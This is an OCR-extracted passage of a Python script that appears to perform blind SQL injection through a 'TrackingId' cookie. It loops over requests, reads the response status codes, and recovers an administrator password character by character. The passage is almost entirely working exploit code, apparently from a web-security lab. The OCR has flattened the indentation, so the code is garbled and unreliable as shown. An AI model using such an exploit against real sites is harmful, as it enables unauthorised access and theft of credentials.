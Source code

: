 ```python
				'session': 'YOUR_SESSIONID',
				'TrackingId': payload
				}
				
				  
				r = requests.get(url, cookies=cookie)
				
				
				if r.status_code == 200:
				
				# print('Error occurred')
				
					continue
				
				else:
				
				# print('No error')
				
				position += 1
				
				password += ''.join(character)
				
				print(f'[+] Found password: {password}', end='\r')
				
				break
			
			  
			
			if len(password) >= 20:
			
			print(f'[+] administrator password: {password}')
			
			exit()
	
	except KeyboardInterrupt:
	
	print('\n[*] Bye!')

  
if __name__ == '__main__':

main()
```
---


----




---
# Image 3

